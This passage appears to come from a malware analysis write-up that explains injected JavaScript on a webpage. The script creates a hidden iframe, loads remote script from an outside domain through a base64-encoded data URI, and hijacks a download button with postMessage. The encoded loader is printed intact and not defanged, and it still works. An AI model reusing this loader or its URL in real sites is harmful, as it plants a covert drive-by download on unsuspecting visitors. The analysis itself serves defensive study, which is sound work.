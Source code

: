 Note: an iframe is an "inline frame", essentially another webpage within the webpage. The original page can communicate with the iframe; one way to do this is by posting messages, which we will see done here.  

After the iframe is created a function called `btnClickAction` is defined. The purpose of this function is to send the string `download` to the iframe when the download button is clicked. Once the message is sent, the function sets the `btnActionClicked` variable to `true` and returns "false", essentially cancelling the rest of the default actions performed when event listeners are triggered, including following the link.  

After the `btnClickAction` eventListener is set up, one last eventListener is created. From the docs - "The message event is fired on a Window object when the window receives a message, for example from a call to Window.postMessage() from another browsing context." Assuming, this eventListener is waiting for the iframe to send it a message.  
Once the message from the iframe is received, if the string sent is `loaded` and the `bntActionClicked` variable has been set to true, then the string `download` is sent to the iframe once again.

```JS
    var iframe = document.createElement('iframe');
    iframe.classList.add('browser-landing');
    iframe.src = 'data:text/html;base64,PGh0bWw+PGhlYWQ+PC9oZWFkPjxib2R5PjxzY3JpcHQgc3JjPSdodHRwczovL3RheGVzLnJwYWN4LmNvbS82WTU5a2JxcFRhUm5wbVBtWTc2amhWWkxoL1lPcmwwL0NQZjhRYXRMY21CYk9tWjhpSFFsSXhkT1dXOUcxdk9ibWhYVWYzSVhwUys2a2VnU3JXZng3QT09Jz48L3NjcmlwdD48L2JvZHk+PC9odG1sPg==';
    iframe.style.display = 'none';
    document.body.appendChild(iframe);
    var btnActionClicked = false;

    function btnClickAction(e) {
        try {
            iframe.contentWindow.postMessage('download', "*");
        } catch (e) {}
        btnActionClicked = true;
        return false;
    }
    btn.addEventListener('click', btnClickAction, true);

    window.addEventListener("message", function(event) {
        if (event.data == 'loaded') {
            if (btnActionClicked) {
                iframe.contentWindow.postMessage('download', "*");
            }
        }
    });
})();
``` 
Alright, that was a lot to cover. Ending this section now for readability. In the following section, I will examine the contents of the iframe and explain how it interacts with the original webpage.

---
### IFrame Contents

In the previous section we saw the `iframe.src` had been set to a base64 encoded string - let's take a look at it.
```JS
<html><head></head><body>
<script src='hxxps://taxes[.]rpacx[.]com/6Y59kbqpTaRnpmPmY76jhVZLh/YOrl0/CPf8QatLcmBbOmZ8iHQlIxdOWW9G1vObmhXUf3IXpS+6kegSrWfx7A=='></script>
</body></html>
```
